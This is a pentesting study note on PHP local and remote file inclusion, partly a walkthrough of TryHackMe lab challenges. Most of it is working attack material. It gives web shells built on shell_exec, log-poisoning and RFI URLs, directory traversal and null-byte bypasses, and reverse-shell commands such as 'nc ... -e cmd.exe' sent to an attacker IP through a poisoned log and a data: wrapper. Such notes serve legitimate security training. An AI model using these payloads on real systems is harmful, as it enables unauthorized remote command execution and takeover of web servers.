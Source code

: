 

File Inclusion vulns require attacks to execute code and write shell payload somewhere.  
  
**LFI** - Local File Inclusion - When the file is loaded from the same web server.  
**RFI** - Remote File Inclusion - When the file is loaded from an external source.  
  
Exploitation depends on both the language the app is written in and the server config.  
Ex:  
PHP - the version of the language runtime and web server configs (_php.ini_) values like _register_globals_ and _allow_url_ wrappers make a difference.  
  
  
If bind/ reverse bind won't properly execute binaries, verify whether it's a [fully interactive TTY](Fully%20Interactive%20TTY.md):


### ID'ing:
Can be discovered in same way as directory traversals: locate parameters we can manipulate and attempt to use them to load arbitrary files, then execute the contents.  
  
Check parameters to see if they are vulnerable to RFI by changing their values to a URL instead of a local path.  
Default configs for modern PHP versions disables remote URL includes, but we should still test.  
Can use [nc](netcat.md), Apache, or Python to handle the request.  
Host payloads on different ports as any remote connection may be subject to internal firewalls or routing rules.  
  
  
### Exploiting LFI:
WebApp PHP:  
```php
<?php  
    $file = $_GET["file"];  
    include $file;  ?>
```
	App reads in the _file_ param from the request query string, then uses that value with an _include_ statement  
	Means app will execute any PHP code w/in the specified file.  
  
***Note:** If the file were opened with _fread_ and _echo_ were used to display the contents, then any code w/in the file would be displayed rather than executed.  
  
  
### Contaminating Log Files:
If we can't upload a file to the server, we can try to inject code through log file poisoning.  
Submitting a request that includes PHP then using LFI to load the payload can work as most app servers will log all URLs that are requested.  
  
Ex (Using Win client w/ taco sight up & running):  
• Send a log file payload from attacker ip  
```bash
nc -nv 192.168.xxx.166 80
```
  
(UNKNOWN) \[192.168.xxx.10\] 80 (http) open  
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
	- Written in PHP hence: \<?php ?\>  
	- Bulk of payload is echo command that will print output to the page  
	- Wrapped in _pre_ HTML tags preserving any line breaks or formatting in the results of the function call.  
	- _shell_exec_ executes an OS cmd retrieving from the “cmd” parameter of the GET request.  
	
 
 - Craft URL that utilize Directory Traversal to locate the Apache _access.log_ file, exploit the app's _include $file;_ statment, & execute the PHP code.
 ```null
 http://192.168.xxx.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```
 
Result:
![[log_poisoning.png]]


To pop a shell:  
- Start listener on attacker box  
```bash
nc -nlvp 80
```
  
- Use log file poisoning to craft URL for reverse bind shell:  
```null
http://192.168.xxx.10/menu.php?file=c:\xampp\apache\logs\access.log&cmd=nc%20192.168.xxx.166%2080%20-e%20cmd.exe
```
   
*NOTE: Important to read any errors that are displayed.  
- Might disclose full web directory  
- Might disclose a define directory the devop forced the webapp to read from (Can circumvent via _?file=directory/../../../../etc/passwd_)  
- Might disclose filtering: Devops filters out _../_ so using _....//....//....//_ works.  
  
  
  
## TryHackMe LFI Challenges:
1. Input form is broken, but need to send POST request with ‘file=’  
```bash
curl -X POST http://10.10.44.240/challenges/chall1.php -d "file=etc/flag1"
```
 
2. Welcome Guest! Only Admins can access the page!  
	- Within Dev > Console  
```html
document.cookie="THM=admin"
```
	& refresh
	
 - Refreshes as admin page  
```html
document.cookie="THM=/etc/flag2"
```
	& refresh.  

- Returns error "Warning: include(includes//etc/flag2.php)  
	- Shows that files are being hosted from w/in _includes_ directory  
	- Shows that there's two _/_ from _includes_ to _etc_  
	- Shows request ends looking for _.php_ files  
```html
document.cookie="THM=../../../../../etc/flag2%00"
```
	& refresh.  
  
3. Include a file  
```null
http://10.10.44.240/challenges/chall3.php?file=/etc/flag3
```

- Returns error “Warning: include(etcflag.php)”  
	- Shows it's exluding _/_ char (Tested for multiple _/_ and all are being filtered)  
	- Shows request ends looking for _.php_ files  
	- Both work:  
```bash
curl -X POST http://10.10.44.240/challenges/chall3.php -d "file=/etc/flag3%00 --output -
```
```bash
curl http://10.10.44.240/challenges/chall3.php -H "Content-Type= application/x-www-form-urlencoded" -d "file=/etc/flag3%00 --output -
```

  
  
### RFI:
Easier to exploit, allows for more payload crafting flexibility, but less common than LFIs as the server must be configured very specifically for them.  
Ex:  
PHP apps must be configured w/ _allow_url_include_ set to ‘ON’ (not default in newer versions)  
If the config file is set w/ a **$** is present in _FilesMatch_, then double extensions are not allowed.  
  
Can test by creating a listener on attack box and crafting the URL:
```null
http://192.168.xxx.10/menu.php?file=http://192.168.xxx.166/evil.txt
```
	If output on attack box shows a GET request for _/evil.txt_ RFI is possible.  
  
  
\*Older versions of PHP have a vulnerability in which a null byte (%00) will terminate any string.  
This trick can be used to bypass file extensions added server-side (using BurpSuite) and is useful for file inclusions because it prevents the file extension from being considered as part of the string.  
In other words, if an app reads in a parameter and appends “.php” to it, a null byte passed in the parameter effectively ends the string without the “.php” extension.  
This gives an attacker more flexibility in what files can be loaded with the file inclusion vulnerability.  
[http://youtube.com/watch?v=jBtzFGwHvxE](http://youtube.com/watch?v=jBtzFGwHvxE)

\*Another trick for RFI payloads is to end them with a question mark (?) to mark anything added to the URL server-side as part of the query string  
  
  
Simple _webshell_ - software providing Web-based CLI:  
  
- Save the previous php cmd to the _evil.txt_ file  
```php
<?php echo shell_exec($_GET['cmd']); ?>
```
 
- Refresh Apache  
```bash
sudo systemctl restart apache2
```
  
- Once file is in place (_/var/www/html_) & web server running can sent RFI attack URL to vuln web  
```null
http://192.168.xxx.10/menu.php?file=http://192.168.xxx.166/evil.txt&cmd=ipconfig
```

Can set _cmd_ to reverse bind w/ **nc** ^  
  
Pre-written backdoors can be found at _/usr/share/webshells_  
  
  
### PHP Wrappers:
Can be used to exploit [Directory Traversal](9.4.3%20-%20Directory%20Traversal.md) and [LFI](#Exploiting%20LFI) vulns  
  
Can use the _data_ wrapper to embed inline data as part of the URL w/ plaintext or base64 data.  
Provides an alternative payload when local files can't be poisoned.  
  
  
Usage:  
```html
file=data:text/plain,hello world
``` 
	- text/plain - signaling plaintext  
	- , marks start of the contents  
  
  
For shell:  
```bash
http://192.168.xxx.10/menu.php?file=data:text/plain,nc 192.168.xxx.166 8080 -e cmd.exe
```

  

### Null Bytes:
Developers can specify the type of file it's looking for:  
```null
http://target.com/menu.php?file=/etc/passwd
```
becomes
```null
http://target.com/menu.php?file/etc/passwd.php
```

 
Adding the Null Byte _%00_ or _0x00_ to terminate the string and trick the webapp into ignoring everything else afterwards:  
```null
http://target.com/menu.php?file=/etc/passwd%00
```


This is patched in PHP 5.3.4 and above  
  
If the files are blocked, can attempt to view them by adding a _./_ at the end:  
```null
http://target.com/menu.php?file=../../../../etc/passwd/.
```